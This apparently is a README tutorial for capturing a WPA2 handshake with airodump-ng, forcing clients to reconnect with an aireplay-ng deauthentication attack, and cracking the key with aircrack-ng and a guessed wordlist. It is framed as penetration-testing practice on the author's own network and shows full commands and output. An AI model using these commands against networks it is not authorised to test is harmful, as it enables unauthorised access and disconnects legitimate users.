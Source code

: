 
# 🔐 WPA2 Handshake Capture & Crack Guide

A step-by-step walkthrough for capturing and cracking WPA2 Wi-Fi handshakes using Kali Linux tools such as `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, and `Wireshark`. This guide includes real command examples, output samples, and clear syntax explanations to help you learn practical Wi-Fi penetration testing.

---

## 🔰 STEP 1: Show your current Wi-Fi interfaces

```bash
ip a
Output

plaintext
Copy
Edit
└─$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:d1:f8:5d brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 83641sec preferred_lft 83641sec
    inet6 fd17:625c:f037:2:f3f0:9569:d80d:1f3c/64 scope global dynamic noprefixroute 
       valid_lft 83641sec preferred_lft 11641sec
    inet6 fe80::5cd6:6f08:b2c1:8819/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
10: wlan0mon: <BROADCAST,ALLMULTI,PROMISC,NOTRAILERS,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default qlen 1000
    link/ieee802.11/radiotap 00:2e:2d:e0:14:60 brd ff:ff:ff:ff:ff:ff

```


✅ STEP 2: Stop Monitor Mode (to start fresh)
```bash

sudo airmon-ng stop wlan0mon
```
It will prompt for a password. Type kali if using Kali Linux.
```bash
Output:

plaintext
Copy
Edit
PHY     Interface       Driver          Chipset

phy0    wlan0mon        rtl8xxxu        Realtek Semiconductor Corp. RTL8188FTV 802.11b/g/n 1T1R 2.4G WLAN Adapter
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
```
✅ STEP 3: Start Monitor Mode
bash
Copy
Edit
sudo airmon-ng start wlan0
It will prompt for password. Type kali if using Kali Linux.

Output:

plaintext
Copy
Edit
PHY     Interface       Driver          Chipset

phy0    wlan0mon        rtl8xxxu        Realtek Semiconductor Corp. RTL8188FTV 802.11b/g/n 1T1R 2.4G WLAN Adapter
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
✅ STEP 4: Scan for Nearby Wi-Fi Networks
bash
Copy
Edit
sudo airodump-ng wlan0mon
Let it run for 10–15 seconds, then press Ctrl + C.

Take note of:

BSSID (MAC) of your target network (e.g., Ankith)

Channel (CH)

ESSID (name)

Example:

plaintext
Copy
Edit
3E:B7:E4:DD:3A:19  -40      122        0    0  11  180   WPA2 CCMP   PSK  Ankith
🧾 Syntax Explanation:
BSSID → This is the MAC address of the Wi-Fi router.
3E:B7:E4:DD:3A:19

CH (Channel) → The Wi-Fi channel number it's broadcasting on.
11

ESSID → The name of the network.
Ankith

✅ STEP 5: Lock onto the target and capture the handshake
bash
Copy
Edit
sudo airodump-ng -c 11 --bssid 3E:B7:E4:DD:3A:19 -w ankith_capture wlan0mon
This locks onto channel 11, focuses on Ankith, and saves handshake to ankith_capture-01.cap.

Keep running until you see:

plaintext
Copy
Edit
WPA handshake: 3E:B7:E4:DD:3A:19
🧪 Trigger the Handshake (Deauth Attack)
If no client is connecting or the handshake is taking too long, we can force a device to reconnect by sending deauthentication packets.

bash
Copy
Edit
sudo aireplay-ng -0 5 -a 3E:B7:E4:DD:3A:19 wlan0mon
Explanation:
-0 → Deauth attack mode

5 → Number of deauth packets

-a → Target BSSID (router)

wlan0mon → Monitor mode interface

This sends 5 deauthentication frames to all clients connected to Ankith.
Those clients will disconnect and auto-reconnect, triggering a WPA handshake.

📱 Simple Trick
Take your phone near the laptop or PC, turn Wi-Fi off, then turn it on again. When the respective Wi-Fi appears on the phone, click on it.
WPA handshake: 3E:B7:E4:DD:3A:19 will appear on your terminal.

Sample Output
plaintext
Copy
Edit
CH 11 ][ Elapsed: 6 mins ][ 2025-07-05 03:40 ][ WPA handshake: 3E:B7:E4:DD:3A:19

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
3E:B7:E4:DD:3A:19  -44  90     2795      418    0  11  180   WPA2 CCMP   PSK  Ankith

BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes
3E:B7:E4:DD:3A:19  50:8F:4C:A9:E0:6D  -45    1e- 1   16721    10638  EAPOL  Ankith
🧾 STEP 7: Open and Visualize the Handshake in Wireshark
bash
Copy
Edit
wireshark ankith_capture-01.cap
In Wireshark, apply this display filter:

bash
Copy
Edit
eapol
You should see up to 4 packets:

Message 1 of 4

Message 2 of 4

Message 3 of 4

Message 4 of 4

IEEE 802.1X Authentication → Key Information
Example Key Info Flags:

plaintext
Copy
Edit
Key Type: Pairwise Key
Key MIC: Set
Install: Set
Secure: Set
Message Mapping Table:
Message	Flags
1	Key ACK = 1, Key MIC = 0, Install = 0
2	Key MIC = 1, ACK = 0, Install = 0
3	MIC = 1, ACK = 1, Install = 1
4	MIC = 1, ACK = 0, Install = 0 (again)

✅ You only need Message 2 to crack with Aircrack-ng.

🔓 STEP 9: Crack the Handshake
You’ll need a wordlist (dictionary of possible passwords).
In this case, I suspected a few potential passwords and created a file including those.

📌 Create a Wordlist
bash
Copy
Edit
echo -e "anki123456\nankith1234\nankith@2024\nAnkith123\nankithwifi\nankith321\nankith" > ankith_list.txt
🔨 Crack Command
bash
Copy
Edit
aircrack-ng -w ankith_list.txt -b 3E:B7:E4:DD:3A:19 ankith_capture-01.cap
Or:

bash
Copy
Edit
aircrack-ng -w ankith_list.txt -b 3E:B7:E4:DD:3A:19 ankith_capture-04.cap
Sample Output
plaintext
Copy
Edit
Reading packets, please wait...
Opening ankith_capture-04.cap
Read 16951 packets.

1 potential targets

                               Aircrack-ng 1.7 

      [00:00:00] 7/7 keys tested (72.14 k/s) 

      Time left: --

                          KEY FOUND! [ anki123456 ]

Master Key     : 8D 99 0F 60 C7 01 2A 8B 41 1B 4A 4E 55 C4 8A 14 
                 25 52 A5 F1 DF 21 20 EA 4A 0C E9 52 3E 54 DB C4 

Transient Key  : E9 53 84 18 E3 D9 3B 7E 54 F7 81 5E EE 28 87 75 
                 5D 9C 5C F2 10 4C FA 5B 5A FE F3 D5 AF A9 D2 32 
                 63 DB 59 04 EA F8 79 BE DA 5A BE E6 3B 49 BD AB 
                 3D 02 68 3A CF 12 46 83 EA A8 2B 4C 57 43 8A DB 

EAPOL HMAC     : 81 C3 AD 1B 94 D1 CE C7 F6 6F 11 07 F1 0B CF 6D
✅ The suspected passwords list helped crack the key successfully.
